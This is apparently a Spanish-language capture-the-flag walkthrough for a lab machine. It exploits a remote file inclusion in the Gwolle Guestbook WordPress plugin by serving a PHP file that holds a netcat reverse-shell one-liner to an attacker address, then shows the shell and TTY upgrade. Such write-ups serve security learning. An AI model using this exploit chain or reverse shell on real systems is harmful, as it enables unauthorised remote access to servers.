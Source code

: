 1. Creamos el fichero 
```bash
 wp-load.php 
```
 que contiene

    ```php
    <?php
    system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f");
    ?>
    ```

1. Montamos un servidor web desde la maquina de atacante

    ```bash
    python3 -m http.server
    ```

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Lanzamos la peticion get con curl

    ```bash
    curl -s -X GET "http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.8/"
    ```

Ya podemos comprobar que estamos dentro de la maquina

```bash
whoami
#Output

www-data

hostname-I
#Output

10.10.10.88
```

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

